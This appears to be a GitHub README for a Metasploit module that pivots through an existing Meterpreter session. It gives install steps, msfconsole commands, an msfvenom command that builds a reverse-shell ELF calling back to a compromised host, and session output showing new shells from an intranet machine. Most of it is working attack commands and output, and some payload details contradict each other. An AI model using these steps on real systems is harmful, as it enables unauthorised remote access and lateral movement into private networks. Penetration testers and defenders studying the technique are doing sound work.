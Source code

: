 # session_handler
a post module of metasploit, bind handler in meterpreter session 

# install 
copy session_handler.rb to   your metasploit installation folder(modules/exploits/multi) . 

# usage  
frist you need get a meretpreter session 
```bash
msf6 exploit(multi/handler) > sessions 

sessions
============

  Id  Name    Type                     Info           Connection
  --  ------    ------                     ------           ------
  1           meterpreter x86/windows  w-PC\w @ W-PC  192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
```




run  use exploit/multi/session_handler 
```bash

msf6 exploit(multi/handler) >   use exploit/multi/session_handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/session_handler) > options
msf6 exploit(multi/session_handler) > set lport  14444 
msf6 exploit(multi/session_handler) > set lhost 192.168.56.1 #local machine public address 
msf6 exploit(multi/session_handler) > set payload windows/x64/meterpreter_reverse_tcp 
msf6 exploit(multi/session_handler) > set session  1 #the meterpreter sessionid  
msf6 exploit(multi/session_handler) > run -j #as job
msf6 exploit(multi/session_handler) > jobs 

Jobs
====

  Id  name                           payload                          options
  --  ------                            ------------                           ------------------
  5   Exploit: multi/session_handler  linux/x64/meterpreter_reverse_tcp  tcp://192.168.56.1:14444
```


now ,you can see the port  14444 is binding in  192.168.56.102 (meterpreter session machine).

check port is open with nmap 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-30 17:43 CST
Nmap scan report for 192.168.56.102
Host is up (0.00047s latency).

PORT      STATE SERVICE
14444/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.03 seconds
```



```bash
./msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.56.102  LPORT=14444 -f elf -o shell.elf
```

 execute windows/x64/meterpreter_reverse_tcp on other machine (The machine must have access to 192.168.56.102  ) , the you will be get a new meterpreter session from intranet host.

```bash
msf6 exploit(multi/session_handler) > [*] Meterpreter session 3 opened (192.168.56.1:14444 -> 192.168.56.1:40977) at 2022-07-30 17:32:46 +0800
msf6 exploit(multi/session_handler) > 
msf6 exploit(multi/session_handler) > sessions 
sessions
============

  Id  Nmae  Type                     Info                                                                    Connection
  --  ------    ------                     ------                                                                    ------
  1           meterpreter x86/windows  w-PC\w @ W-PC                                                           192.168.56.1:4444 -> 192.168.56.102:49402 (192.168.56.102)
  3           meterpreter x86/linux    w @ w-F117-V (uid=1000, gid=1000, euid=1000, egid=1000) @ 192.168.1.12  192.168.56.1:14444 -> 192.168.56.1:40977 (192.168.56.1)
```
